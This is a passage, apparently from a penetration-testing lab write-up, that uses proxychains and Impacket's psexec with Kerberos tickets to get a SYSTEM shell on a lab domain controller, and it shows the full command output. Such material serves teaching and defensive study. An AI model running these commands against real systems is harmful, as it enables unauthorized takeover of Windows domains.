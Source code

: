 ```bash
CN=Administrators,CN=Builtin,DC=corp1,DC=com 2020-06-15 07:37:26.049078 2020-07-08
09:21:43.005075
```

If we want to gain a shell on the server, we can then run psexec with the following command:
```bash
kali@kali:~$ proxychains python3 /usr/share/doc/python3-impacket/examples/psexec.py
Administrator@DC01.CORP1.COM -k -no-pass
ProxyChains-3.1 (http://proxychains.sf.net)
Impacket v0.9.21 - Copyright 2020 SecureAuth Corporation
...
[*] Requesting shares on DC01.CORP1.COM.....
[*] Found writable share ADMIN$
[*] Uploading file tDwixbpM.exe
[*] Opening SVCManager on DC01.CORP1.COM.....
[*] Creating service cEiR on DC01.CORP1.COM.....
[*] Starting service cEiR.....
...
[!] Press help for extra shell commands
...
Microsoft Windows [Version 10.0.17763.1282]
(c) 2018 Microsoft Corporation. All rights reserved.
C:\Windows\system32> whoami
nt authority\system
C:\Windows\system32>
```